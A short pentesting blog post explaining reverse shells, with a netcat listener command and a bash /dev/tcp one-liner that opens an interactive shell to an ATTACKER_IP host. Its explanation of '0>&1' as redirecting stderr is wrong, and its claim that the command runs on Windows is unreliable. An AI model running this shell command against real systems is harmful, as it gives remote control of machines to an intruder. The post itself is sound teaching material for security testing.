 ```yaml
---
author: "Marcin M"
title: "Reverse Shell — Quick Guide"
date: 2025-03-29T18:29:52Z
description: "How to run a reverse shell and receive the connection successfully."
aliases: []
draft: false
categories: ["Pentesting", "Shells"]
tags: ["reverse shell", "linux", "networking", "pentest"]
ShowToc: true
TocOpen: false
searchHidden: false
editPost:
  URL: "https://github.com/Marcin13/posts/blob/master/Reverse_shell.md"
---
```


![Screenshot.png](http://marcinmitruk.link/img/Reverse-shell/Screenshot_1.png)

## 🔁 What is a Reverse Shell?

A reverse shell is a connection **initiated from the target back to the attacker**.  
Useful in cases where the target is behind NAT or a firewall.

---

## 📥 Step 1: Start a Listener

On your attacker machine (Kali, VPS, Oracle Cloud, etc.), open a port to receive the connection:

```bash
nc -lvnp 12345
```
    -l → listen mode

    -v → verbose

    -n → skip DNS

    -p 12345 → port to listen on

✅ Important:
If you're using Oracle Cloud, AWS, or any VPS, you must manually open the port (e.g., 12345) in your security rules / firewall settings.

## 📥 Step2: Run the Reverse Shell

On the target machine (Linux, Windows, macOS, etc.), run the following command:

```bash
bash -i >& /dev/tcp/ATTACKER_IP/12345 0>&1
```
    bash -i → start an interactive shell

    >& /dev/tcp/ATTACKER_IP/12345 → redirect stdin and stdout to the attacker's IP and port

    0>&1 → redirect stderr to stdout

🔗 **Note:** Replace `ATTACKER_IP` with your IP address.
If everything is correct, you’ll see a connection like:

```bash
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 12345
```

Happy hacking! 🎉
